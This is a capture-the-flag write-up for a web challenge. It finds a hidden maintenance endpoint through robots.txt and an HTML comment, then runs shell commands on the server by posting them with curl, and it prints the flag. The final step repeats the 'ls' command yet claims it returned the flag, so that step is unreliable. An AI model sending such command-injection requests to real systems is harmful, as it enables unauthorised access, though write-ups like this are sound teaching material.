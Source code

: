 Web Security

Prompt - "Sometimes websites are afraid of the terminator finding things out. http://challenge.acictf.com:48390 The flag is in flag.txt."

Upon going to the website we're greeted with a big picture of a robot, and in the prompt it says "terminator". Let's check /robots.txt

we get the following
```
User-agent: *
Allow: /index.html
Allow: /products.html
Disallow: /maintenance_foo_bar_deadbeef_12345.html
```

Going to the /maintenance page we don't see very much other than this strange header 
```
Human-Built Robots LLC.
Maintenance
Result: Run a command!
```

In the source code however we do see this 
```
 <!--
            Disabled for being insecure... oops!
        <form action="/secret_maintenance_foo_543212345", method="POST">
            <input name="cmd"/>
        </form>-->
```

This means there's a API for us to post to. Let's see if we can make a post request with a command
`curl -d "cmd=ls" http://challenge.acictf.com:48390/secret_maintenance_foo_543212345`

we get a response with the following list built into the HTML, so we know it works
```
Result: flag.txt
robots.txt
server.py
static
templates
xinet_startup.sh
```

now we just need to get the flag.txt
`curl -d "cmd=ls" http://challenge.acictf.com:48390/secret_maintenance_foo_543212345`

and we get the flag

ACI{a0457c209e2ea4e00f731dc5ae4}

